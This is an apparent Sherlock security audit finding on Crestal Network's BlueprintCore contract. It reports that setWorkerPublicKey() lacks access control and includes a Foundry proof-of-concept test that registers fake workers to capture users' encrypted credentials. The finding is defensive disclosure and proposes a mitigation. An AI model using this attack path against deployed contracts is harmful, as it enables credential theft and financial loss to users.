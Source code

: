 Old Latte Bull

High

# Anyone can set malicious workers and set a malicious encryption key

### Summary

Workers have a critical role on the system, they are the ones who do the real deployment, and they are trusted with confidential agent information such as credentials. The function `setWorkerPublicKey()` allows anyone to be a worker and add an encryption public key, which leads to exposing sensitive information, sabotaging the deployment process, and causing financial loss to users.

### Root Cause

Here's the vulnerable function at [`BlueprintCore:688`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L688-L695): 
```solidity
    // set worker public key
    function setWorkerPublicKey(bytes calldata publicKey) public {
        if (workersPublicKey[msg.sender].length == 0) {
            workerAddressesMp[WORKER_ADDRESS_KEY].push(msg.sender);
        }

        workersPublicKey[msg.sender] = publicKey;
    }
```
It adds the msg.sender with no checks to the mapping `workerAddressesMp`, then sets the `workersPublicKey` to the public key of choice.

### Attack path

To understand the serious dangers of the vulnerability, we need to understand what's this public key is used for, here's an explanation by the sponsor :

> ![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/b5e2029a-d6ce-497b-acc4-75ca075d3488)


1. Since there is no authentication or validation in setWorkerPublicKey(), any malicious actor can spam this function with many fake workers to increase the likelihood that a user will stumble across one of them.
2. Users, unaware of the fraud, encrypt sensitive data using the malicious public key.
3. The malicious worker has the corresponding private key, decrypts the data, exposing agent credentials, configurations, and other sensitive deployment details. ( decryption is done off-chain ).
4. The malicious worker can choose not to perform the deployment, sabotaging the system and causing financial loss to the user.


### Internal Pre-conditions

The victim needs to choose one of the malicious workers, the attacker can increase the likelihood of this by automating the registration of so many workers until they exceed the number of legit workers.

### External Pre-conditions

N/A

### Impact

- Sabotaging the deployment process: The malicious worker can choose not to deploy.
- Financial loss to users, since `createAgent()` costs money , ( check [line 464](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L464) ), so not performing the real deployment off-chain after the user has called `createAgent()` will cause financial damage to users.
- Attacker gets sensitive agent data, such as credentials, configurations, and other deployment details.

### PoC
- Run `forge test --mt test_anyoneCanRegisterMaliciousWorkers -vvvv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract AuditTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public workerAddress2; // Second worker (attacker)
    address public dummyAddress;
    address public user = address(0x1338);
    address public attacker = address(0x1337);
    bytes public x;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // Mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // Set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 10e18);
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        workerAddress2 = makeAddr("worker2"); // Attacker worker
        dummyAddress = address(0);
    }

    function test_anyoneCanRegisterMaliciousWorkers() public {

        // 1 - attacker registers many malicious workers
        bytes memory MaliciousPublicKey = "dummy_public_key"; // in a real world scenario this will be a real public key
        for (uint160 i = 1; i <= 10; i++) {                  // that the attacker holds its corresponding private key
            vm.startPrank(address(i));
            blueprint.setWorkerPublicKey(MaliciousPublicKey);
            x = blueprint.getWorkerPublicKey(address(i));
            console.log(string(x));
        }

        assertEq(blueprint.getWorkerAddresses().length, 10);
        

        // All malicous workers are registered and they exceeded the number of legit workers, 
        // now the likelihood that a user will choose one of them is high


        // 2 - victim calls getWorkerAddresses, chooses a malicious worker and calls createAgentWithToken
        vm.startPrank(user);
        address[] memory maliciousWorkers = blueprint.getWorkerAddresses();
        address maliciousWorker = maliciousWorkers[0];
        console.log(maliciousWorker);
        deal(address(mockToken), user, 10e18);
        mockToken.approve(address(blueprint), 10e18);
        blueprint.createAgentWithToken(projectId, "test base64 proposal", maliciousWorker, "http://example.com", address(mockToken));
        
        // 3 - Encryption and decryption happen off-chain

        // 4 - Malicious worker gets the sensitive data, and doesn't deploy, causing financial loss to the user.
    }
}
```

### Mitigation

Add access control checks to the function `setWorkerPublicKey()`.